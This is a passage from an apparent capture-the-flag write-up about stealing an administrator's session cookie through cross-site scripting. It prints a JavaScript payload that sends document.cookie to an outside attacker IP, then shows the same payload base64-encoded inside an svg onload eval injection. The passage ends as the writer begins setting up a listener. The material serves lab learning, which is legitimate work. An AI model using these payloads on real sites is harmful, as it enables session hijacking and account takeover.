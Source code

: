 ![Successfull xss](/assets/img/Headless/Headless_04.png)

### Hijacking admin token

So now that we have proof that we are able perform a cross site scripting attack we just have to upgrade our payload to then send the administrators cookie to us instead. After some experimenting i came up with the following javascript payload.

```js
const Http = new XMLHttpRequest();
const url='http://10.10.16.27/TEST?c='+document.cookie;
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
  console.log(Http.responseText)
}
```
After base64 encoding this command it would look like the following wrapped in our xss payload.
```html
<svg onload='eval(atob("Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly8xMC4xMC4xNi4yNy9URVNUP2M9Jytkb2N1bWVudC5jb29raWU7Ckh0dHAub3BlbigiR0VUIiwgdXJsKTsKSHR0cC5zZW5kKCk7CgpIdHRwLm9ucmVhZHlzdGF0ZWNoYW5nZSA9IChlKSA9PiB7CiAgY29uc29sZS5sb2coSHR0cC5yZXNwb25zZVRleHQpCn0="));' 
```

Before we send this request we first need to setup our webserver, I did this python
